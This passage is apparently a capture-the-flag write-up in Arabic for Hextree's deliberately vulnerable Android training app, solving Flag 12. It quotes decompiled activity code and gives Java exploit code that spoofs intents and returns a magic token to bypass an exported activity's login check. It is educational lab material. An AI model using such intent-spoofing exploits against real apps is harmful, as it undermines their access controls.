 ```java
Intent recivedIntent = getIntent();  
Utils.showDialog(this,recivedIntent);  
  
// عشان نرجع result  
recivedIntent.putExtra("token",1094795585);  
setResult(RESULT_OK, recivedIntent);  
finish();
```

### Flag 12

#### تحليل الكود

```xml
<activity
       android:name="io.hextree.attacksurface.activities.Flag12Activity"
       android:exported="true"/>
```

وأيوة نقدر نبعته مباشرة لـ activity 

```java
public void onCreate(Bundle bundle) {
        if (getIntent().getAction() == null) {
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            startActivityForResult(intent, 42);   
            }
        }
    }
    public void onActivityResult(int i, int i2, Intent intent) {
        super.onActivityResult(i, i2, intent);
        if (intent == null || 
	        getIntent() == null || 
	        !getIntent().getBooleanExtra("LOGIN", false)) 
	        {
	            return;
        }
        this.f.addTag("LOGIN");
        if (intent.getIntExtra("token", -1) == 1094795585) {
            this.f.addTag(1094795585);
            success(this);
        }
```

محتاجين نبعت intent فاضي بعدين هيبعت intent بـ action `"io.hextree.attacksurface.ATTACK_ME"`، بعدين نبعت intent مع Boolean `"LOGIN"` `true` و extra `"token"` `1094795585`

#### الحل

```java
Intent wakeUp= new Intent();
wakeUp.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag12Activity");
startActivity(wakeUp);

Intent intent2 = new Intent();
intent2.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag12Activity");
intent2.putExtra("LOGIN", true);
startActivity(intent2);

Intent receivedIntent = getIntent();
receivedIntent.putExtra("token", 1094795585); // التشيك على الرقم السحري        
setResult(RESULT_OK, receivedIntent);
finish();
```